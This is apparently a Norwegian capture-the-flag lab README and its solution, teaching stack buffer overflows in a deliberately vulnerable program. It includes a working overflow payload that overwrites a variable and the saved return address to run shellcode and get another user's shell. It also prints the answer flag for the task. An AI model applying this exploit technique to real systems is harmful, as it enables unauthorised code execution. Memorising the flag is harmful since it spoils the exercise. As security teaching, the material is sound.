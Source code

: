 # Buffer overflow

Hver prosess har sitt eget minneområde. Hvis man ved hjelp av en sårbarhet kan *endre på vilkårlige data i minnet* kan man få programmet til å gjøre noe annet enn tiltenkt.

Den klassiske måten å gjøre dette på ble beskrevet i artikkelen *Smashing The Stack For Fun And Profit*, publisert i *Phrack Magazine* #49 i 1996. For å forstå resten av denne teksten, anbefaler vi å lese artikkelen på `http://phrack.org/issues/49/14.html`.

Siden 90-tallet har både prosessorer, operativsystemer, kompilatorer og programmeringspråk introdusert mange mekanismer som forsøker å gjøre det vanskeligere å utnytte sårbarheter som tillater *minnekorrupsjon*. Hver for seg er disse mekanismene som regel enkle å omgå, men kombinasjonen av dem gjør det langt mer tidkrevende og komplisert å skrive *exploits* i dag enn for 20 år siden. Ofte vil man ha behov for å kombinere flere sårbarheter før man kan ta full kontroll over en prosess, for eksempel *minnelekkasjer* for å omgå *minnerandomisering* (ASLR), før man kan overskrive en *returadresse*.

Programmet i denne mappen er laget for å visualisere hvordan data plasseres på *stacken* og hvordan man kan påvirke programflyten i `main()`. Funksjonen setter av plass i minnet til en håndfull lokale variabler, og en av disse er et *buffer* på 32 byte. Det første argumentet kopieres inn i bufferet ved hjelp av `strcpy()` (uten å sjekke størrelsen på tekststrengen). Dette fører til at variablene som ligger på høyere minneadresser kan overskrives.

Det første skrittet for å lese ut flagget er å endre 'above' til en hardkodet verdi du finner i kildekoden. For å gjøre det siste skrittet lettere, allokeres det *eksekverbart minne* hvor du kan legge inn egen *shellkode*, eller bruke den som ligger i filen `sample_shellcode`.

```sh
$ export SHC=$(cat sample_shellcode)
$ cat overflow.c
$ ./overflow AAAAAAAA
$ ./overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ ???
```

# Solution

```login@corax:~/1_grunnleggende/4_overflow$ export SHC=$(cat sample_shellcode)
login@corax:~/1_grunnleggende/4_overflow$ ./overflow AAAAAAAA

Before strcpy:
above = 0x               0
below = 0x6867666564636261

After strcpy:
above = 0x               0
below = 0x6867666564636261

Stackdump:
0x7ffcfdc5a480   00 00 00 00 02 00 00 00  |........|
0x7ffcfdc5a478   33 d8 62 e9 0a 56 00 00  |3.b..V..|
0x7ffcfdc5a470   00 00 00 00 00 00 00 00  |........|
stored rip       ca 21 14 c3 96 7f 00 00  |.!......|
stored rbp       02 00 00 00 00 00 00 00  |........|
0x7ffcfdc5a458   00 00 00 00 00 00 00 00  |........|
0x7ffcfdc5a450   78 a5 c5 fd fc 7f 00 00  |x.......|
&above           00 00 00 00 00 00 00 00  |........|
0x7ffcfdc5a440   00 00 00 00 00 00 00 00  |........|
0x7ffcfdc5a438   00 00 00 00 00 00 00 00  |........|
0x7ffcfdc5a430   00 00 00 00 00 00 00 00  |........|
0x7ffcfdc5a428   00 00 00 00 00 00 00 00  |........|
&buffer          41 41 41 41 41 41 41 41  |AAAAAAAA|
&below           61 62 63 64 65 66 67 68  |abcdefgh|
&width           08 00 00 00 00 00 00 00  |........|
&shellcode_ptr   30 30 30 30 30 30 00 00  |000000..|
&p               00 a4 c5 fd fc 7f 00 00  |........|

above has not been overwritten.
Supply an argument which is long enough to overflow buffer, and modify the value of 'above'.
login@corax:~/1_grunnleggende/4_overflow$ ./overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Before strcpy:
above = 0x               0
below = 0x6867666564636261

After strcpy:
above = 0x        41414141
below = 0x6867666564636261

Stackdump:
0x7fff7faf0b00   00 00 00 00 02 00 00 00  |........|
0x7fff7faf0af8   33 b8 96 b3 74 55 00 00  |3...tU..|
0x7fff7faf0af0   00 00 00 00 00 00 00 00  |........|
stored rip       ca d1 7d f5 ff 7e 00 00  |..}..~..|
stored rbp       02 00 00 00 00 00 00 00  |........|
0x7fff7faf0ad8   00 00 00 00 00 00 00 00  |........|
0x7fff7faf0ad0   f8 0b af 7f ff 7f 00 00  |........|
&above           41 41 41 41 00 00 00 00  |AAAA....|
0x7fff7faf0ac0   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff7faf0ab8   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff7faf0ab0   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff7faf0aa8   41 41 41 41 41 41 41 41  |AAAAAAAA|
&buffer          41 41 41 41 41 41 41 41  |AAAAAAAA|
&below           61 62 63 64 65 66 67 68  |abcdefgh|
&width           08 00 00 00 00 00 00 00  |........|
&shellcode_ptr   30 30 30 30 30 30 00 00  |000000..|
&p               80 0a af 7f ff 7f 00 00  |........|

above has incorrect value.
Read source code to find the magic number.

login@corax:~/1_grunnleggende/4_overflow$ ./overflow $(echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x41\x42\x43\x44\x45\x46\x47\x48AAAAAAAAAAAAAAAAAAAAAAAA\x30\x30\x30\x30\x30\x30')

Before strcpy:
above = 0x               0
below = 0x6867666564636261

After strcpy:
above = 0x4847464544434241
below = 0x6867666564636261

Stackdump:
0x7fff84fdac30   00 00 00 00 02 00 00 00  |........|
0x7fff84fdac28   33 08 2b cc 8b 55 00 00  |3.+..U..|
0x7fff84fdac20   00 00 00 00 00 00 00 00  |........|
stored rip       30 30 30 30 30 30 00 00  |000000..|
stored rbp       41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff84fdac08   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff84fdac00   41 41 41 41 41 41 41 41  |AAAAAAAA|
&above           41 42 43 44 45 46 47 48  |ABCDEFGH|
0x7fff84fdabf0   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff84fdabe8   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff84fdabe0   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff84fdabd8   41 41 41 41 41 41 41 41  |AAAAAAAA|
&buffer          41 41 41 41 41 41 41 41  |AAAAAAAA|
&below           61 62 63 64 65 66 67 68  |abcdefgh|
&width           08 00 00 00 00 00 00 00  |........|
&shellcode_ptr   30 30 30 30 30 30 00 00  |000000..|
&p               b0 ab fd 84 ff 7f 00 00  |........|

above is correct!
Next step is to adjust the stored rip to point to shellcode

$ cat FLAGG
Veldig bra jobbet!
Du har nå et fullverdig shell med rettigheter til en annen bruker.
Bruk kommandoen `exit` for å gå tilbake til den vanlige brukeren din.

Husk å levere flagget :)

╭────────────────────────────────────────╮
│    2248644980a376cf4dda51c7485545b6    │
╰────────────────────────────────────────╯

login@corax:~/1_grunnleggende/4_overflow$ scoreboard 2248644980a376cf4dda51c7485545b6
Kategori: 1. Grunnleggende
Oppgave:  1.4_overflow
Svar:     2248644980a376cf4dda51c7485545b6
Poeng:    10

Gratulerer, korrekt svar!
